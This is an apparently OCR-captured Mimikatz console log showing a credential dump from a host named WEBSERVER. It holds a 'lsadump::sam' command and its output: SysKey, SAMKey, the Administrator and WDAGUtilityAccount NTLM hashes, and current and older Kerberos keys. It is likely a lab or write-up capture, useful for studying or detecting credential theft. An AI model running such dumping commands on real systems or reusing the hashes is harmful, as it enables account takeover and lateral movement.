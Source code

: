 ```
         * Password : 34 f7 2c a2 fa 00 56 a8 2a bc a7 ad d3 22 c9 cf dc 8c fe f8 87 ca 51 22 44 fb 80 b4 39 22 31 03 c1 bd 32 46 81 65 98 f4 fc c2 b8 22 fc 84 7f c3 81 fa 69 8d 77 d2 ed e9 57 b4 51 19 4b 1a 94 04 6c fc 1c 42 03 e6 1b 0a e6 90 61 40 10 9e a8 95 33 69 fa f5 65 f6 67 12 15 ae fe b7 64 ce d7 58 27 c7 62 7d 5d 79 40 73 c9 b9 32 2d 7d b1 82 5d ca b5 f2 ec 28 33 ea 00 5a 83 b1 ac b6 cc 63 9b 4a 3f ab 2e f2 41 c1 3c a4 a1 8e 84 51 af 8e a7 76 f0 68 13 e4 23 be 79 32 ff 7a 6a c7 34 ac c5 44 2a c8 91 a1 76 b5 04 c5 31 ad c5 ee 13 f4 96 fa 0f 25 86 5c 34 6e f7 c3 9e e9 1e c6 8b 5c 6a 71 72 dd 8f c2 d2 c5 91 1a c9 e1 3a ac 89 24 ea ef 08 66 30 50 b1 bd d6 39 8e 9b d7 0a 5d a0 e4 b1 21 7c 20 5b dd a1 69 ce 63 d1 70 15 e9 11 f1
        ssp :
        credman :
        cloudap :

mimikatz(commandline) # lsadump::sam
Domain : WEBSERVER
SysKey : ea7b3f466f263386e6dc165bcde0d1d2
Local SID : S-1-5-21-35825707-945739770-2891244367

SAMKey : 0f38480331d27a37fb84a64691c96638

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: f47f6266f4bb428db65cd949e7537f52

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 95278d33a26e8418cde3b6bc618d5d4c

* Primary:Kerberos-Newer-Keys *
    Default Salt : EC2AMAZ-N0S1NB6Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 487149fe0751036e0aa497d82728570248f671894c39912e818bc058546478da
      aes128_hmac       (4096) : 95f019490c136ba744dd27b3248d862d
      des_cbc_md5       (4096) : 264a2c3df40ba886
    OldCredentials
      aes256_hmac       (4096) : 27d1fe245f22752ae07fa19e6c4cb8c9a711d23fa43041c3eba9dea1c46879f4
      aes128_hmac       (4096) : 2881481a8717f3d3a4377847a1099566
      des_cbc_md5       (4096) : 76315edf8a0191ea
    OlderCredentials
      aes256_hmac       (4096) : 7e16bff797907f940783a6315b3ab4bd398542aabf2bc888506bce52b0961cf4
      aes128_hmac       (4096) : e87a3a66df7112bf158fd184ffa88547
      des_cbc_md5       (4096) : 4a43754f1c08dca7

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : EC2AMAZ-N0S1NB6Administrator
    Credentials
      des_cbc_md5       : 264a2c3df40ba886
    OldCredentials
      des_cbc_md5       : 76315edf8a0191ea


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: d7da45674bae3a0476c0f64b67121f7d
```
